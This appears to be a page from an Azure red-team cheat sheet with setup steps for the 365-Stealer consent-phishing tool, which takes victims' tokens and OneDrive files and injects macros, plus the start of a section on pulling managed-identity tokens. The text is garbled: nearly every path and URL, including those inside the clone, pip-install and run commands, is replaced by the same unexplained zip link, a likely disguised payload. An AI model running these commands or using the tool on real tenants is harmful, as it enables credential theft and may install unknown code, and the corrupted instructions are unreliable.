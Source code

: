 ### Setup 365-Stealer

:warning: Default port for 365-Stealer phishing is 443

- Run XAMPP and start Apache
- Clone 365-Stealer into `C:\xampp\htdocs\`
    * `git clone https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip`
- Install the requirements
    * Python3
    * PHP CLI or Xampp server
    * `pip install -r https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip`
- Enable sqlite3 (Xampp > Apache config > https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip) and restart Apache
- Edit `https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip` if needed
    - Disable IP whitelisting `$enableIpWhiteList = false;`
- Go to 365-Stealer Management portal > Configuration (http://localhost:82/365-stealer/yourVictims)
    - **Client Id** (Mandatory): This will be the Application(Client) Id of the application that we registered.
    - **Client Secret** (Mandatory): Secret value from the Certificates & secrets tab that we created.
    - **Redirect URL** (Mandatory): Specify the redirect URL that we entered during registering the App like `https://<Domain/IP>/login/authorized` 
    - **Macros Location**: Path of macro file that we want to inject.
    - **Extension in OneDrive**: We can provide file extensions that we want to download from the victims account or provide `*` to download all the files present in the victims OneDrive. The file extensions should be comma separated like txt, pdf, docx etc. 
    - **Delay**: Delay the request by specifying time in seconds while stealing
- Create a Self Signed Certificate to use HTTPS
- Run the application either click on the button or run this command : `python https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip --run-app`
    - `--no-ssl`: disable HTTPS
    - `--port`: change the default listening port
    - `--token`: provide a specific token
    - `--refresh-token XXX --client-id YYY --client-secret ZZZ`: use a refresh token
- Find the Phishing URL: go to `https://<IP/Domain>:<Port>` and click on **Read More** button or in the console.

**Mitigation**: Enable `Do not allow user consent` for applications in the "Consent and permissions menu".


## Token from Managed Identity

> **MSI_ENDPOINT** is an alias for **IDENTITY_ENDPOINT**, and **MSI_SECRET** is an alias for **IDENTITY_HEADER**.

Find IDENTITY_HEADER and IDENTITY_ENDPOINT from the environment : `env`

Most of the time, you want a token for one of these resources: 
* https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
* https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
* https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
* https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
